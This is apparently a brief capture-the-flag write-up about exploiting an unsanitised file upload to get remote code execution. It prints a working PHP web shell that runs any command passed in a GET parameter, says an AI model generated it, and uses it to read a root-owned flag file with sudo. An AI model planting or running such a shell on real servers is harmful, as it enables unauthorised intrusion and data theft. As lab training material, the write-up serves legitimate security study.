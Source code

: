 > File upload exploit
> not sanitizing user input causing RCE

![image](https://github.com/user-attachments/assets/1f9d22df-172d-4644-959f-80f14288176d)
 
nice pic bro 

![image](https://github.com/user-attachments/assets/b08a92ef-7f24-4754-b68c-369cc7af8d38)
![image](https://github.com/user-attachments/assets/ee05a9d6-74ec-4687-afeb-b935cf883dfe)

Uploaded and to no surprise, we can see the image in there =)

![image](https://github.com/user-attachments/assets/ab94b8a6-c2a3-43f2-bb8d-36ccf3499a5e)
![image](https://github.com/user-attachments/assets/c66b006a-c662-423d-831d-27ef3baa94bf)

Uploaded, acessible and rendered. 

TIME TO USE CHINA'S LATEST TECHNOLOGY: DEEPSEEK

With a simple webshell it generated, we can start executing commands on their server and navigate the files

```
<?php
if (isset($_GET['cmd'])) {
    echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
}
?>

<form method="GET">
<input type="text" name="cmd" placeholder="Enter command">
<input type="submit" value="Execute">
</form>
```

![image](https://github.com/user-attachments/assets/dcc13ce5-d8c3-42e6-abce-0324f1d4021d)

```cd ../../../../; sudo cat /root/flag.txt```

By executing this command, we are able to read the flag file in the /root directory, of course, with sudo 

![image](https://github.com/user-attachments/assets/34e69ca6-3686-4c9d-b7bc-0f3802d7a0fe)

![image](https://github.com/user-attachments/assets/a1c909ff-b789-4949-a444-fcc9c0404b8d)

